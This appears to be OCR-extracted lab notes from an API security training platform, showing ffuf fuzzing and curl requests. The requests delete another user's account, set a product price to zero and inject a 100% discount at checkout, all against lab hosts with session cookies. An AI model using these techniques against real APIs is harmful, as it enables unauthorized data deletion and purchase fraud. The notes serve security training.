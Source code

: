 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```



____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.

```bash
curl -X PATCH https://0a8200d403af68b280a4307f00cc0063.web-security-academy.net/api/products/1/pric  
e -d '{"price":0}' -H 'Cookie: session=lzNDDGErMDObJ2YNiFeCYWPcrGi4en9m' -H 'Content-Type: application/json'
```

___

```bash
curl -X POST https://0a88007104bb78eb82061ac200d600e9.web-security-academy.net/api/checkout -H 'Coo  
kie: session=5ruUmRzO6InKX10BeH9MhoKEPxCSXjqC' -H 'Content-Type: application/json' -d '{"chosen_products":[{"product_id":"1",  
"quantity":1}],"chosen_discount":{"percentage":100}}' -i
```

